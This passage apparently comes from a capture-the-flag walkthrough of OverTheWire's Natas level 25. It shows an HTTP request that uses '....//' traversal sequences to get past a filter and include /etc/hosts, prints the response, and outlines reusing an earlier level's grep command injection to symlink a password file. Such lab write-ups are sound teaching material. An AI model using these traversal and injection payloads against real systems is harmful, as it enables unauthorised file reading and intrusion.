 ```http
Cookie: PHPSESSID=5o6nht5jjo40nk6lh5d05pd452
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```
- Firing this request, we get another error in our response:
```text
include(/): failed to open stream: No such file or directory
```
- Notice the path now, it is trying to include the filesystem root. Hence, we bypassed the directory traversal check, which means now we can specify whatever path we want to include in our application. This concludes our common information base, which will be used in both the approaches
- As a test for the file inclusion, we can include the `/etc/hosts` file which contains the mapping of IP addresses to domain names, kind of like a local DNS cache. For that, we modify our GET request as follows:
```http
GET /?lang=....//....//....//....//....//etc/hosts HTTP/1.1
Host: natas25.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Authorization: Basic bmF0YXMyNTpja0VMS1VXWlVmcE92NnV4UzZNN2xYQnBCc3NKWjRXcw==
Connection: keep-alive
Referer: http://natas25.natas.labs.overthewire.org/
Cookie: PHPSESSID=5o6nht5jjo40nk6lh5d05pd452
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```
- Firing this request yields the following response (trimming to the useful part):
```text
127.0.0.1 localhost

# The following lines are desirable for IPv6 capable hosts
::1 ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
ff02::3 ip6-allhosts
127.0.0.1 natas natas.labs.overthewire.org
```
- The file has been included successfully, and the contents are displayed properly too. We can now proceed to crack the level
- We need to keep in mind that if we try to include the file `/etc/natas_webpass/natas26` directly, it shuts down the application entirely, stopping any PHP code from running further
## Approach Bubby
- In this approach, we make use of a previous level we solved, [Natas9](./Natas9_to_Natas10.md).
- We have seen in that level that we can pass any arbitrary command to the server and it will run it as it is, without any checks
- Although I had solved it without exploiting the RCE (Remote Code Execution), we can do that now
- Taking a quick recap, the command that is being executed looks like this: `grep -i $key dictionary.txt`
- For the `$key` variable, we can prepare a payload that will exit the `grep` command prematurely, then we can run our code
- So in this approach, we somehow need to make the file `/etc/natas_webpass/natas26` accessible to the `natas25` user without specifying the name. Hmm, a bit confusing, isn't it?
- However, if we think carefully, we can do that with a symbolic link. It is like a form of a shortcut that we can create in linux based OSes that allow us to access a file with some different name
- So, in the `/tmp/` directory which can be read and written by any user, we can create a symlink to `/etc/natas_webpass/natas26`, which can then be read by `natas25`. All we need to ensure is that we don't specify a filename that's too obvious